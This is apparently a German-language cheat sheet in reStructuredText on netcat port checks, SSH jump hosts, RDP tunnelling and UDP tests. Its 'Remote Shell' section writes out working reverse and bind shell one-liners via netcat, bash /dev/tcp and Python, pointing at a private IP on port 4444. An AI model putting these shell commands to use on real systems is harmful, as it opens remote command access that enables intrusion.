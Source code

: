 .. _nc_allg:

################
Netcat
################

Port offen:
============
nc -zv <host> <port>


Remote Shell
==============
Target Host: nc -lvp <port>
Source Host: 
* nc <target-ip> <port> -e /bin/bash

Alternativ via Bourne Shell auf dem target host:
Auf dem Target: bash -i >& /dev/tcp/192.168.100.113/4444 0>&1

Alternativ via Python auf dem target host:
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.100.113”,4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);''


SSH
=====

Jumphost
---------

ssh über zwei Jumphosts:
    ssh -A -J <user@jmp1host>,<user@jmp2host> <user>@<zielhost>
    
    oder .ssh/config
    Host <zielhost>
        ProxyJump <user@jmp1host>,<user@jmp2host> <user>@<zielhost>

    dann mit <user>@<zielhost> anmelden

Windows RDP über ssh-Jumphost
------------------------------
ssh -L 33389:<windows terminalserver>:3389 -N <user>@<linux jumphost>

UDP Test
=========
https://unix.stackexchange.com/questions/235830/how-does-netcat-know-if-a-udp-port-is-open

Test zwischen zwei Servern: 

.. code-block:: 

    a:~# nc -luk 10.12.0.12 667 // listen on UDP port 667
    b:~# nc -uv 10.12.0.12 667  // check if port is open 
    
    Sent a simple message:
    a:~# nc -luk 10.12.0.12 667 // listen on UDP port 667
    b:~# nc -u 10.12.0.12 667
    I love stackexchange // send a message
    a:~# nc -luk 10.12.0.12 667
    I love stackexchange // receive the message.


    netcat -l 40002  // server
    netcat -zv <server> 40002 // client




